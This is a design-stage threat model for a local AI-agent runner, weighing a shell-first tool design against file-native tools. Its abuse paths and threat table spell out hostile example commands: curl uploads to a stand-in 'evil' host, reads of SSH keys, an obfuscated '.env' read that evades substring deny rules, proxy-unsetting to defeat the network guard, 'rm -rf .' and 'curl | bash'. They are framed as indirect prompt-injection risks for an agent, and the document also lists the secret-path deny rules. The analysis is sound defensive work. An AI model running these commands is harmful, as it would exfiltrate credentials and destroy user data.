

# Bash-Primary Execution Pathway — Threat Model

**Repository:** `/Users/alanman/Developer/claude-local-bridge-playground`  
**Decision under review:** Make `bash` the **primary** execution pathway (model does most read/write/search/git/test via shell) vs the **current** design (file-native tools first, `bash` opt-in).  
**Status:** Design exploration only — not a merge proposal.  
**Date:** 2026-05-22

### Glossary (for Alan)

| Term | Plain meaning |
|------|----------------|
| **TOCTOU** | “Time-of-check vs time-of-use” — safety is checked at one moment, but the file or path can change before the action runs (classic symlink trick). |
| **Egress** | Data leaving your machine to the internet (e.g., `curl` uploading files). |
| **Sandbox** | A hard isolation box (separate user, VM, container, seccomp) that limits what a process can do. **This runner does not have one for bash.** |
| **Cwd jail** | Promising the agent only works inside `--cwd`; file tools enforce this with `realpath`; bash only sets starting directory. |
| **Deny matrix** | Built-in list of path patterns (`.env`, `.ssh/`, keys, etc.) that file tools and shell **text scanning** try to block. |

---

## Executive summary

The local bridge **runner** is a Node CLI agent loop: user prompt → model (via optional VS Code bridge transport) → `tool_use` → local tools → repeat. Today, **file-native tools** (`read_file`, `edit_file`, …) are the default path; `bash` is **hidden unless `--allow-shell`**, runs via `spawnSync` with `shell: true`, and is **not sandboxed** — only timeout, output caps, filtered env, and **substring** checks on the command string.

A **bash-primary** design would route most agency through arbitrary shell, which **widens the trust boundary** from “structured path args + realpath confinement” to “full user-shell capability in the project OS account.” Existing mitigations (deny matrix, env scrubbing, secret redaction, confirmations) **do not compose** into equivalent protection for shell. The highest risks are **credential/project exfiltration**, **cwd-jail bypass**, **approval fatigue** under `--dont-ask`, and **integrity/availability** damage (`rm`, `git`, package installs) with weaker auditability than file tools.

**Top priority themes:** TM-001 (egress/exfil), TM-002 (jail bypass), TM-003 (substring policy bypass), TM-004 (destructive shell without path guards), TM-005 (operator misconfiguration: `--allow-shell` + `--dont-ask`).

---

## Scope and assumptions

### In scope

- Node runner: `bin/local-bridge-runner.js`, `src/runner/run.js`, `src/runner/tool-registry.js`, `src/runner/permissions.js`, `src/runner/safety.js`, `src/runner/tools/bash.js`, `docs/threat-model.md`, `test/runner/bash.test.js`
- Comparison: **current** (file tools first, bash opt-in) vs **hypothetical bash-primary** (model predominantly uses `bash` for read/write/git/test)

### Out of scope

- Bridge internals (`src/server.js`, `src/proxy.js`, OAuth/keychain) — treated as **transport + credentials** only
- Running tests, hitting `localhost:11437`, or live bridge fuzzing
- “Detection bypass” research or evasion techniques
- CI/CD and npm supply chain of the extension publish pipeline

### Assumptions (validate with Alan — see end)

1. **Operator threat model:** The human running the runner is the primary security decision-maker; the **model + prompt** are semi-trusted inputs that can be manipulated (indirect prompt injection via repo content).
2. **Deployment:** Single-user macOS dev machine, project `cwd` is a real repo (not shared multi-tenant server).
3. **Bash-primary implies flags:** `--allow-shell` always on; often `--dont-ask` and/or `--allowed-tools bash` for UX — materially increases unattended shell.
4. **Bridge:** Optional; when used, model traffic goes to local HTTP API; `--caller-token` / `BRIDGE_CALLER_TOKEN` may gate bridge access (see `src/runner/model-client.js`).
5. **No OS-level sandbox** is assumed today; recommendations that require VM/container are **conditional** hardening.

### Open questions (material to ranking)

1. Is **caller auth** on the bridge always enabled in your setups, or often open on localhost?
2. Is the bridge/runner **always-on** while you work, or only for explicit tasks?
3. Is `cwd` ever pointed at **sensitive trees** (home subdirs with tokens, monorepo roots with many `.env*`), or only isolated project clones?

---

## System model

### Primary components

| Component | Role | Evidence |
|-----------|------|----------|
| **CLI entry** | Parses flags (`--allow-shell`, `--dont-ask`, `--no-network`, `--cwd`) | `bin/local-bridge-runner.js` |
| **Agent loop** | Steps, batches read-only tools, serializes write/shell with confirmation | `src/runner/run.js` |
| **Tool registry** | Dispatches tools; hides `bash` if `!allowShell`; scrubs secrets on all results | `src/runner/tool-registry.js` |
| **Permissions** | Category policy + path confinement + bash substring deny | `src/runner/permissions.js` |
| **Safety** | `validateCwd`, `confinePath` (realpath), `buildSafeEnv`, `scrubSecrets` | `src/runner/safety.js` |
| **bash tool** | `spawnSync(command, { shell: true, cwd, env, timeout })` — **no command parser** | `src/runner/tools/bash.js` |
| **File tools** | Structured `path` args; reads/writes go through permission path checks | e.g. `src/runner/tools/read-file.js` |
| **Bridge client** (optional) | HTTP to local bridge for model | `src/runner/model-client.js` |

**Current vs hypothetical**

| Aspect | Current (file-first) | Hypothetical (bash-primary) |
|--------|----------------------|-----------------------------|
| Default tools exposed | All except `bash` unless `--allow-shell` | `bash` central; file tools optional/legacy |
| Read path | `read_file` + `confinePath` + deny matrix | `cat`, `sed`, `git show`, etc. — **no per-path realpath gate in bash** |
| Write path | `edit_file` / `write_file` + ask/acceptEdits + backups | `echo >>`, `sed -i`, `git commit` — broader blast radius |
| Batching | Read-only tools batched; shell serial | Shell-only → **no read batching benefit**; more serial confirmations or more `--dont-ask` |
| System prompt | Lists file tools first; bash one line if enabled | Would need rewrite to prefer shell (not present today) |

### Data flows and trust boundaries

- **Operator → CLI:** argv, env, stdin prompt — *trusted configuration*
- **CLI → Runner ctx:** `cwd`, `allowShell`, `dontAsk`, `noNetwork`, flags — *trusted, drives policy*
- **Runner → Model (bridge):** messages, tool schemas — *crosses boundary to cloud/model provider*
- **Model → Runner:** `tool_use` JSON (tool name + args) — **untrusted input**
- **Runner → Local FS / subprocess:** file tools (constrained paths) vs bash (shell) — **privileged local boundary**
- **Runner → Operator:** confirmations, stderr warnings — *safety UX*
- **Runner → Disk:** transcripts, traces, human logs — *sensitive artifacts*

**Boundary guarantees today**

| Edge | Data | Channel | Guarantees |
|------|------|---------|------------|
| Model → Tool args | paths, commands | in-process | Schema per tool; permissions.check before execute |
| Tool → FS (file) | relative paths | sync FS | `confinePath` + deny matrix (`permissions.js`, `safety.js`) |
| Tool → OS (bash) | full shell string | `spawnSync` + `shell: true` | cwd start, timeout, maxBuffer; env filter; **substring** deny only |
| Tool result → Model/logs | stdout text | memory/disk | `scrubSecrets` on results (`tool-registry.js`) |

#### Diagram

---

## Assets and security objectives

| Asset | Why it matters | Security objective |
|-------|----------------|-------------------|
| **Host user credentials** | Shell inherits broad env (minus scrub list); can reach keychain-adjacent paths via absolute paths | Confidentiality |
| **Project source + git state** | Primary workload; bash can exfil or corrupt | C / I |
| **Secrets on disk** (`.env`, keys, cloud cred dirs) | Deny matrix targets these; bash bypass is the threat | Confidentiality |
| **Operator confirmation budget** | Fatigue → auto-approve harmful shell | Integrity |
| **Transcripts / traces** | Store tool I/O; bash dumps more noise and command lines | Confidentiality |
| **Bridge caller token** | Gates local API if enabled | Confidentiality |
| **Local compute** | Fork bombs, build storms, `npm install` | Availability |
| **Runner integrity** | Malicious edits to runner itself if cwd mis-set | Integrity |

---

## Attacker model

### Capabilities

- Influence **model tool selection** via user prompt and **repo content** (README, logs, malicious source comments) — indirect injection.
- Supply **arbitrary `bash` command strings** when shell is enabled (and especially when `--dont-ask` auto-allows shell category).
- Trigger **network egress** from the runner OS user via shell (HTTP, DNS, raw TCP) unless separately firewalled.
- Read/write **any path the OS user can access**, subject only to coarse substring rules — not equivalent to file-tool `confinePath`.
- Chain **many tool calls** within `max_steps` (no per-second shell rate limit — `docs/threat-model.md` §4).

### Non-capabilities (without additional compromise)

- Remote anonymous attacker **directly** invoking runner tools **without** a local operator starting the CLI (unless another local agent automates it).
- Bypassing **hard denies** that match substring rules (e.g. literal `cat .env` — tested in `test/runner/bash.test.js`).
- Enabling `bash` with **`--dont-ask` alone** — requires `--allow-shell` (`permissions.js` lines 187–189; CLI help `bin/local-bridge-runner.js`).
- Reading blocked paths via **file tools** when `confinePath` and deny matrix apply (stronger than bash).

---

## Entry points and attack surfaces

| Surface | How reached | Trust boundary | Notes | Evidence |
|---------|-------------|----------------|-------|----------|
| CLI flags | Terminal | Operator → Runner | `--allow-shell`, `--dont-ask`, `--accept-edits`, `--no-network` | `bin/local-bridge-runner.js` |
| User prompt | argv positional | Operator → Model | Drives tool planning | `run.js` |
| Model `tool_use` | API response | Model → Runner | Untrusted | `run.js` |
| `bash.command` | tool arg | Model → OS | Full shell; `shell: true` | `bash.js` |
| File tool `path` | tool arg | Model → FS | realpath confinement | `permissions.js`, `safety.js` |
| Transcript resume | `--resume` | Disk → Runner | Reloads prior tool results | `run.js` `loadMessagesFromTranscript` |
| Bridge HTTP | `--bridge-url` | Runner → Bridge | Optional; caller token | `model-client.js` |

---

## Top abuse paths

*Bash-primary scenarios; each assumes `--allow-shell` and model preference for shell.*

1. **Project exfil via HTTP** — Goal: steal repo → `curl -F file=@./internal/config.json https://evil` (path not in deny list) → secrets or IP leave host → mitigated only by redaction *after* read, not prevention (`docs/threat-model.md` §1).

2. **Cwd jail escape via absolute paths** — Goal: read `~/.ssh` or `/Users/.../.aws` → `bash` `cat /Users/al/.ssh/id_ed25519` (no `.ssh/` substring if path encoded differently) or `python3 -c "open(...)"` → host user files leak; file tools would deny via matrix on resolved path.

3. **Substring policy bypass** — Goal: read `.env` → `cat ."$'e'nv"` / `node -e 'fs.readFileSync(...)'` / hex-encoded paths without literal `.env` in command string → permission check never sees blocked token (`permissions.js` lines 135–178).

4. **`--no-network` defeat** — Goal: exfil with proxy set → `unset http_proxy HTTPS_PROXY; curl ...` → CLI warns this is not a sandbox (`bin/local-bridge-runner.js` line 53); non-HTTP egress unaffected.

5. **Destructive ops without path tokens** — Goal: wipe repo → `git reset --hard`, `git clean -fdx`, `rm -rf node_modules` (allowed) or `rm -rf .` → integrity loss; file tools require explicit paths and backups for writes.

6. **Approval fatigue (bash-primary + dontAsk)** — Goal: persist → operator runs `--allow-shell --dont-ask` for speed → model runs many shell steps unattended → compound damage before human notices (`MODES.dontAsk` allows shell category).

7. **Supply-chain / install scripts** — Goal: RCE-like impact → `npm install` / `curl \| bash` in primary workflow → arbitrary code from network + write under cwd; file-native edit path is narrower.

8. **TOCTOU / symlink read** — Goal: read secret outside jail → place symlink in cwd pointing to `.env` → `cat link` before realpath policies apply on bash (file tools anchor realpath on path arg; bash does not re-check per open).

9. **Transcript & trace over-collection** — Goal: later disclosure → bash-primary logs full command lines + large stdout in JSONL → more sensitive surface than bounded `read_file` (`docs/threat-model.md` §5–6).

10. **Resource exhaustion** — Goal: DoS local dev → tight loop `bash` with parallel jobs / huge output → CPU/disk fill; only step cap and timeout per command (`bash.js`, `run.js`).

---

## Threat model table

| Threat ID | Threat source | Prerequisites | Threat action | Impact | Impacted assets | Existing controls (evidence) | Gaps | Recommended mitigations | Detection ideas | Likelihood | Impact severity | Priority |
|-----------|---------------|---------------|---------------|--------|-----------------|------------------------------|------|-------------------------|-----------------|------------|-------------------|----------|
| TM-001 | Model + prompt injection | `--allow-shell`; network reachable | Use `curl`/`wget`/`nc` to upload readable files | High — data exfil | Source, secrets | Env scrub `buildSafeEnv`; substring blocks obvious paths; `scrubSecrets` on output; `--no-network` proxy trick | No socket-level egress block; proxy unset; non-HTTP protocols | **Conditional:** OS firewall egress deny for runner UID; keep file tools for reads; never bash-primary on secret-rich cwd | Log bash commands in trace; alert on `curl\|wget\|nc` in transcript | **High** (bash-primary) | **High** | **critical** |
| TM-002 | Model | bash-primary; host paths readable | Absolute path or `cd ..` then read outside cwd | High — credential theft | Credentials, SSH keys | `validateCwd` blocks home root & system dirs; bash sets `cwd` only | **No** post-spawn path confinement; substring incomplete | Do **not** adopt bash-primary without OS sandbox; if exploring, wrap with `landlock`/`sandbox-exec` (platform-specific) | Deny commands matching `\.\./` and leading `/` in bash gate | **High** | **High** | **critical** |
| TM-003 | Model | shell enabled | Obfuscate command to evade substring deny | Medium–High — read blocked files | Secrets | `blockedSegments` list in `permissions.js` | Literal `includes()` only; tests cover obvious cases only (`bash.test.js`) | Keep file-native reads; add **structured** bash allowlist (e.g. `npm test` only) if shell needed — not substring arms race | Failed permission denies per step; metric on deny reasons | **Medium** | **High** | **high** |
| TM-004 | Model or operator mistake | `--dont-ask` + shell | `rm`, `git reset`, mass rewrite via shell | High — integrity loss | Source, git state | Shell category `ask` by default; warnings on CLI | bash-primary pushes destructive ops; backups only on file write tools | Default **ask** for shell even in “fast” modes; separate `--dont-ask-shell` from file writes | Transcript diff size spikes; `git status` after run | **Medium** | **High** | **high** |
| TM-005 | Operator misconfig | Explicit flags | Run unattended shell on valuable repo | High — combined TM-001–004 | All local | `--dont-ask` does not enable shell alone (good) | Pairing `--allow-shell --dont-ask` is documented example command | Document bash-primary as **unsafe default**; require `BRIDGE_RUNNER_ACK_SHELL=1` env to combine flags | Stderr banner when both set | **Medium** | **High** | **high** |
| TM-006 | Model | many steps | Rapid shell loop / huge output | Medium — DoS | Availability | `max_steps`, per-command timeout, output cap `MAX_OUTPUT_CHARS` | No rate limit (`docs/threat-model.md` §4) | `--max-tool-calls-per-turn`; per-run shell budget; lower `max_steps` for bash-primary experiments | Step timing in trace | **Medium** | **Medium** | **medium** |
| TM-007 | Model | bash reads symlinks | TOCTOU read outside cwd | Medium — secret leak | Secrets | realpath on **file tool paths** | bash does not realpath-check targets | Prefer file tools; on macOS use `O_NOFOLLOW` reads in dedicated tool only | Unexpected absolute paths in stdout | **Low–Medium** | **High** | **medium** |
| TM-008 | Model | network + bash-primary workflow | `npm install` / remote scripts | High — supply chain | Integrity, host | Same as TM-001 | Package installs become default path | Pin lockfiles; offline registry; disallow install via `--allowed-tools` without shell | Monitor `node_modules` churn | **Medium** | **High** | **high** |
| TM-009 | Insider / disk thief | transcript on disk | Recover commands and output | Medium — disclosure | Transcripts | `scrubSecrets` on tool results | Commands logged raw in transcript args | Encrypt transcript dir; shorter retention; human-log off for experiments | File access auditing | **Medium** | **Medium** | **medium** |
| TM-010 | Bridge client misuse | bridge exposed; token weak | Steal caller token → invoke bridge | Medium — model spend / prompt injection | Bridge token | Optional `callerToken` header (`model-client.js`) | Not runner-specific; depends on bridge config | Keep caller auth on; rotate token; localhost bind only | Bridge access logs | **Low** (solo dev) | **Medium** | **low–medium** |

---

## Criticality calibration (this repo)

| Level | Meaning here | Examples |
|-------|----------------|----------|
| **critical** | Full host-user data loss or secret exfil on a typical dev machine | TM-001 exfil with bash-primary; TM-002 absolute path credential read |
| **high** | Repo destroyed or persistent compromise of project | TM-004 `git reset --hard`; TM-008 malicious install |
| **medium** | Recoverable DoS or disclosure via logs | TM-006 step exhaustion; TM-009 transcript leak |
| **low** | Needs unlikely bridge exposure + no local operator | TM-010 remote bridge abuse on locked-down localhost |

**Assumptions that move priority:** bash-primary + `--dont-ask` + sensitive cwd → most rows become **critical**. Read-only plan mode (`--plan`) downgrades execution impact but not disclosure if mis-run.

---

## Existing mitigations (evidence-backed)

| Control | What it does | Evidence |
|---------|--------------|----------|
| Shell opt-in | `bash` omitted from tool defs unless `ctx.allowShell` | `tool-registry.js` `getDefinitions` |
| dontAsk ≠ shell | Shell denied without `--allow-shell` even if `--dont-ask` | `permissions.js`, `bash.test.js` |
| Category policy | shell default `ask`; `dontAsk` mode allows shell | `permissions.js` `MODES` |
| Cwd validation | Rejects system dirs and bare home | `safety.js` `validateCwd` |
| File path confinement | `confinePath` + deny matrix for `path` arg tools | `permissions.js`, `safety.js` |
| Shell substring deny | Blocks literals like `.env`, `.ssh/`, `$GH_TOKEN` | `permissions.js` |
| Safe env for bash | Strips `AWS_*`, `ANTHROPIC_*`, `GH_TOKEN`, etc. | `safety.js` `buildSafeEnv`, `bash.js` |
| Best-effort network guard | Proxy env to `127.0.0.1:1` when `--no-network` | `bash.js`, CLI help |
| Output bounds | timeout 30–120s, maxBuffer 1MB, truncate 100k chars | `bash.js` |
| Secret scrub on results | All tool outputs through `scrubSecrets` | `tool-registry.js` `runAndScrub` |
| executeForce still denies | Hard denies for paths / shell patterns | `tool-registry.js` |
| Operator warnings | stderr tips on shell and `--no-network` | `bin/local-bridge-runner.js` |
| Read batching | Read-only tools batched before write/shell | `run.js` |

**Candor:** `bash.js` header comment says “sandboxed” but implementation is **spawnSync + shell:true** with no syscall sandbox — align docs if this exploration continues.

---

## Recommended mitigations (conditional, concrete)

| If you… | Then… |
|---------|--------|
| **Stay file-first (recommended)** | Keep `--allow-shell` off by default; use bash only for `npm test`, linters; keep `read_file` / `edit_file` for IO. |
| **Experiment bash-primary in playground** | Require **manual** confirmation per shell (`dontAsk: false`); cap with `--max-tool-calls-per-turn 3`; never point `--cwd` at home or monorepo root. |
| **Need automation** | Prefer `--allowed-tools read_file,edit_file,...` over bash-only; use `--plan` first. |
| **Need network isolation** | Treat `--no-network` as cosmetic; use macOS firewall / VM with no route (documented in `docs/threat-model.md`). |
| **Must increase shell use** | Add **allowlisted** subcommands (argv array, `shell: false`) instead of free-form string — new module, not substring expansion. |
| **Reduce log risk** | `--trace-level summary` or `off`; avoid `full` traces for bash-primary trials. |

**Do not implement:** “smarter” bypass detection regex arms race; pretending `spawnSync` is a sandbox.

---

## Downsides vs file-native tools

| Dimension | File-native (current) | Bash-primary (hypothetical) |
|-----------|----------------------|----------------------------|
| **Debuggability** | Structured args (`path`, `old_string`); predictable errors | Opaque one-liners; stderr mixed into success text (`bash.js`) |
| **Transcript fidelity** | Tool name maps to intent | Same `bash` for read/write/test — harder to audit later |
| **Cross-platform** | Node FS APIs — portable | Bash/zsh-isms, GNU vs BSD commands break |
| **Permission UX** | Per-file write descriptions (`describeWriteAction`) | Long shell strings; users approve blindly |
| **Token waste** | `read_file` caps bytes/lines | `cat`/`head`/`grep -r` easily over-fill context |
| **Path safety** | `confinePath` + deny on `path` | Only cwd **start** + fragile substring |
| **Undo / recovery** | `.bridge-runner/backups` on file writes | Shell edits may skip backup hooks |
| **Testing** | Deterministic tool unit tests | Shell integration flaky in CI |
| **Performance** | Read-only batching in `run.js` | Serial shell — slower, more confirmations |

---

## When bash-primary might still win (honest tradeoffs)

- **Real dev workflows are already shell-shaped** — `npm test`, `eslint`, `tsc`, `git`, codegen CLIs: one `bash` call matches how humans work.
- **Fewer tool round-trips** — compound pipelines (`rg foo | head`) vs `search_text` + `read_file` chains — lower latency *if* safety is handled elsewhere.
- **Arbitrary project tooling** — no need to wrap every CLI in a dedicated runner tool definition.
- **Exploration velocity** — in this **playground** only, bash-primary can prototype “Claude Code–like” ergonomics before investing in hardened wrappers.

These wins are **ergonomic**, not **security**. They justify experiments only with explicit operator risk acceptance and non-production repos.

---

## Anti-patterns to avoid

1. **Marketing `spawnSync` as a sandbox** — it is not; say “bounded subprocess” instead.
2. **`--allow-shell --dont-ask` as default** in docs or command-builder presets.
3. **`--allowed-tools bash` only** without OS-level isolation.
4. **Expanding substring deny lists** instead of structured commands (false confidence).
5. **Bash-primary on cwd with secrets** (monorepos, infra folders, home subdirs).
6. **Relying on `scrubSecrets`** to justify reading sensitive files — redaction is last resort.
7. **Teaching beginners to approve shell without reading** the proposed command string.

---

## Validation questions for Alan

1. **Caller auth:** When you run the bridge, is `requireCallerAuth` (or equivalent) usually on, and do you always pass `--caller-token`?
2. **Exposure:** Is the runner/bridge only used on your **solo Mac**, or could someone else on the LAN reach localhost?
3. **cwd choice:** For experiments, will `--cwd` stay in **disposable clones** (like this playground), or sometimes your main `~/Developer` trees with real tokens?

---

## Focus paths for security review

| Path | Why it matters | Related Threat IDs |
|------|----------------|-------------------|
| `src/runner/tools/bash.js` | Shell execution semantics | TM-001, TM-002, TM-006 |
| `src/runner/permissions.js` | Shell vs file policy divergence | TM-003, TM-005 |
| `src/runner/safety.js` | confinePath vs bash gap | TM-002, TM-007 |
| `src/runner/run.js` | Batching, confirmation flow | TM-005, TM-006 |
| `src/runner/tool-registry.js` | scrub + executeForce denies | TM-001, TM-009 |
| `bin/local-bridge-runner.js` | Flag combinations & warnings | TM-005 |
| `docs/threat-model.md` | Documented limitations | TM-001, TM-006 |
| `test/runner/bash.test.js` | Policy regression tests | TM-003, TM-005 |
| `src/runner/tools/read-file.js` | Contrast: caps + path arg | TM-002 |
| `src/runner/context-builder.js` | Prompt drives tool choice | TM-005 |
| `src/runner/tools/search-text.js` | Secondary shell surface | TM-003 |

---

## Quality check

- [x] Entry points: CLI, prompt, model tools, bash command, transcripts, bridge HTTP
- [x] Trust boundaries represented in diagram and threats
- [x] Runtime (runner) separated from bridge/CI out of scope
- [x] User validation questions included; assumptions explicit
- [x] No detection-bypass content; candid about non-sandbox
- [x] Format matches threat-model template sections

---

## Notes

This document compares designs for **learning** in `claude-local-bridge-playground`. Canonical runner safety work remains in `/Users/alanman/Developer/claude-local-bridge` on `codex/runner-clean-pr` per `AGENTS.md`.
